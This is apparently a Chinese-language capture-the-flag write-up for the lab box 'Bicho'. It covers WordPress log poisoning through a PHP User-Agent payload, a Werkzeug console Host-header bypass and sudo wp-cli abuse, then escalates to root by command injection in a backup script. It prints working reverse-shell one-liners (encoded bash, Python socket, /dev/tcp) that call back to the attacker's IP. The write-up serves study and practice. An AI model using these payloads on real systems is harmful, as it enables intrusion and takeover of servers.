

## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Easy |

## Nmap

```
[root@kali] /home/kali/bicho  
❯ nmap 172.17.0.2 -sV -A -p- 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-24 09:26 EDT
Nmap scan report for 172.17.0.2
Host is up (0.000089s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Did not follow redirect to http://bicho.dl
|_http-server-header: Apache/2.4.58 (Ubuntu)
```

添加**bicho.dl**到**/etc/hosts**

发现是**wordpress**搭建的网站

```
[root@kali] /home/kali/bicho  
❯ whatweb http://bicho.dl           
http://bicho.dl [200 OK] Apache[2.4.58], Bootstrap[0.8,6.6.2], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.58 (Ubuntu)], IP[172.17.0.2], JQuery[3.7.1], MetaGenerator[WordPress 6.6.2], Script[text/javascript], Title[Visit Suazilandia 🇸🇿], UncommonHeaders[link], WordPress[6.6.2]
```

## WPscan

```
[root@kali] /home/kali/bicho  
❯ wpscan --url http://bicho.dl/                                                                                                               ⏎
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.28
                               
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] Updating the Database ...
[i] Update completed.

[+] URL: http://bicho.dl/ [172.17.0.2]
[+] Started: Thu Apr 24 09:30:43 2025

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.58 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://bicho.dl/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://bicho.dl/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Debug Log found: http://bicho.dl/wp-content/debug.log
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | Reference: https://codex.wordpress.org/Debugging_in_WordPress

[+] Upload directory has listing enabled: http://bicho.dl/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://bicho.dl/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 6.6.2 identified (Outdated, released on 2024-09-10).
 | Found By: Rss Generator (Passive Detection)
 |  - http://bicho.dl/?feed=rss2, <generator>https://wordpress.org/?v=6.6.2</generator>
 |  - http://bicho.dl/?feed=comments-rss2, <generator>https://wordpress.org/?v=6.6.2</generator>

[+] WordPress theme in use: bosa-travel-agency
 | Location: http://bicho.dl/wp-content/themes/bosa-travel-agency/
 | Latest Version: 1.0.0 (up to date)
 | Last Updated: 2025-03-27T00:00:00.000Z
 | Readme: http://bicho.dl/wp-content/themes/bosa-travel-agency/readme.txt
 | Style URL: http://bicho.dl/wp-content/themes/bosa-travel-agency/style.css?ver=6.6.2
 | Style Name: Bosa Travel Agency
 | Style URI: https://bosathemes.com/bosa-travel-agency
 | Description: Bosa Travel Agency is multipurpose business theme. Bosa Travel Agency is beautiful, fast, lightweigh...
 | Author: Bosa Themes
 | Author URI: https://bosathemes.com
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.0.0 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://bicho.dl/wp-content/themes/bosa-travel-agency/style.css?ver=6.6.2, Match: 'Version: 1.0.0'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:00 <=================================================================> (137 / 137) 100.00% Time: 00:00:00

[i] No Config Backups Found.

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Thu Apr 24 09:30:46 2025
[+] Requests Done: 187
[+] Cached Requests: 5
[+] Data Sent: 44.268 KB
[+] Data Received: 22.635 MB
[+] Memory used: 265.609 MB
[+] Elapsed time: 00:00:03
```

## Own www-data

发现一个**debug.log**，里面会存放登录失败的信息


尝试修改**User-Agent**的内容为**php**代码

```
POST /wp-login.php HTTP/1.1
Host: bicho.dl
Content-Length: 95
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://bicho.dl
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: <?php phpinfo();?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://bicho.dl/wp-login.php
Accept-Encoding: gzip, deflate, br
Cookie: wordpress_test_cookie=WP%20Cookie%20check
Connection: keep-alive

log=bicho&pwd=123&wp-submit=Log+In&redirect_to=http%3A%2F%2Fbicho.dl%2Fwp-admin%2F&testcookie=1
```


成功执行代码

这里需要注意下，似乎只能使用反引号来进行命令执行，其他的会导致整个**log**崩溃，从而需要重启**docker**

在**User-Agent**插入以下代码

```
<?php echo `printf KGJhc2ggPiYgL2Rldi90Y3AvMTcyLjE3LjAuMS80NDQ0IDA+JjEpICY=|base64 -d|bash`;?>
```


## Own app

查看到内网端口**5000**开放



上传**socat**将其转换出来

```
www-data@3b66fe911993:/tmp$ ./socat TCP-LISTEN:8080,fork TCP:127.0.0.1:5000 &
[1] 2743
```

查看服务信息

```
[root@kali] /home/kali/bicho  
❯ whatweb http://bicho.dl:8080
http://bicho.dl:8080 [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Werkzeug/3.1.3 Python/3.12.3], IP[172.17.0.2], Python[3.12.3], Title[Blog de Writeups], Werkzeug[3.1.3] 
```

尝试访问**/console**路由，发现返回码是**400**，搜索后得到一个文章👇

- [flask无法访问console的问题解决 2024 | the0n3](https://the0n3.top/pages/883507/#%E6%8E%A2%E7%A9%B6)

只需要使用**hackbar**，设置**Host**为**127.0.0.1**即可绕过，幸运的是这里并不需要输入**pin**码就可以执行命令


因此可以生成一个**python**的反弹**shell**：[HYH的反弹Shell生成器](https://www.hyhforever.top/revshell/)

```
http://172.17.0.2:8080/console?__debugger__=yes&cmd=import os,pty,socket;s=socket.socket();s.connect(("172.17.0.1",9999));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")&frm=0&s=8mGrwebyWWtc1TQPNb2E
```


## Own wpuser

查看**sudo**信息

```
app@3b66fe911993:/home$ sudo -l
sudo -l
Matching Defaults entries for app on 3b66fe911993:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User app may run the following commands on 3b66fe911993:
    (wpuser) NOPASSWD: /usr/local/bin/wp
```

这个工具是**wp-cli**，可以查看一下基本信息

```
app@3b66fe911993:~$ sudo -u wpuser /usr/local/bin/wp --info
sudo -u wpuser /usr/local/bin/wp --info
OS:     Linux 6.12.13-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.12.13-1kali1 (2025-02-11) x86_64
Shell:  /bin/bash
PHP binary:     /usr/bin/php8.3
PHP version:    8.3.6
php.ini used:   /etc/php/8.3/cli/php.ini
MySQL binary:   /usr/bin/mysql
MySQL version:  mysql  Ver 8.0.41-0ubuntu0.24.04.1 for Linux on x86_64 ((Ubuntu))
SQL modes:
WP-CLI root dir:        phar://wp-cli.phar/vendor/wp-cli/wp-cli
WP-CLI vendor dir:      phar://wp-cli.phar/vendor
WP_CLI phar path:       /home/app
WP-CLI packages dir:
WP-CLI cache dir:       /home/wpuser/.wp-cli/cache
WP-CLI global config:
WP-CLI project config:
WP-CLI version: 2.11.0
```

查看一下官方文档，我发现了一个**exec**参数可以进行**php**代码执行

- [wp cli cmd-dump – WP-CLI Command | Developer.WordPress.org](https://developer.wordpress.org/cli/commands/cli/cmd-dump/)


```
app@3b66fe911993:~$ sudo -u wpuser /usr/local/bin/wp --exec='system("id");' 
sudo -u wpuser /usr/local/bin/wp --exec='system("id");' 
uid=1002(wpuser) gid=1002(wpuser) groups=1002(wpuser),100(users)
sh: 1: less: not found
app@3b66fe911993:~$ 
```

这里我是先写入的恶意代码文件，然后再去执行他

```
app@3b66fe911993:/tmp$ echo 'bash -i >& /dev/tcp/172.17.0.1/6789 0>&1' >shell
echo 'bash -i >& /dev/tcp/172.17.0.1/6789 0>&1' >shell
app@3b66fe911993:/tmp$ cat shell
cat shell
bash -i >& /dev/tcp/172.17.0.1/6789 0>&1
app@3b66fe911993:~$ chmod +x /tmp/shell
chmod +x /tmp/shell

app@3b66fe911993:~$ sudo -u wpuser /usr/local/bin/wp --exec='system("bash /tmp/shell");' 
```


## Root

查看一下**sudo**

```
wpuser@3b66fe911993:~$ sudo -l
sudo -l
Matching Defaults entries for wpuser on 3b66fe911993:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User wpuser may run the following commands on 3b66fe911993:
    (root) NOPASSWD: /opt/scripts/backup.sh
```

查看一下具体内容

```
#!/bin/bash
# Author: Álvaro Bernal (aka. trr0r)
# backup.sh: Realiza una copia de un log en una ubicación determinada (/backup)

# COLORES
greenColour="\e[0;32m\033[1m"
endColour="\033[0m\e[0m"
redColour="\e[0;31m\033[1m"
blueColour="\e[0;34m\033[1m"
yellowColour="\e[0;33m\033[1m"
purpleColour="\e[0;35m\033[1m"
turquoiseColour="\e[0;36m\033[1m"
grayColour="\e[0;37m\033[1m"
orangeColour="\e[38;5;214m\033[1m"
darkRedColour="\e[38;5;124m\033[1m"

if [ $# -eq 0 ]; then
    echo -e "\n${redColour}[!] Error, debes de proporcionar un argumento.${endColour}\n\n\t${blueColour}Example:${endColour} ${greenColour}/opt/scripts/backup.sh access${endColour}\n"
    exit
fi

# Variables GLOBALES
LOG_DIR="/var/log/apache2"
BACKUP_DIR="/backup"

LOG_NAME=$1

FULL_NAME="$LOG_DIR/$LOG_NAME.log"

/usr/bin/echo "Realizando copia de $FULL_NAME en $BACKUP_DIR"
COMMAND="/usr/bin/cp $FULL_NAME $BACKUP_DIR"
eval $COMMAND
```

可以发现传入参数并没有经过任何过滤就直接拼接的，因此可以尝试进行命令注入

```
wpuser@3b66fe911993:/tmp$ sudo -u root  /opt/scripts/backup.sh "../../../tmp/a; touch /tmp/ppp;"
```


```
wpuser@3b66fe911993:/tmp$ sudo -u root  /opt/scripts/backup.sh "../../../tmp/a; chmod u+s /bin/bash;"
```


## Summary

`User`：通过登录失败插入**PHP**代码到**User-Agent**，在**debuglog**里可以触发，反弹**shell**拿到**www-data**。内网端口**5000**上的**flask**服务通过设置**HOST**来进入到**/console**，执行任意命令拿到**app**。再通过**wp-cli**的**php**命令执行拿到**wpuser**。

`Root`：脚本中的参数可以使用分号进行拼接绕过，达到任意命令执行。
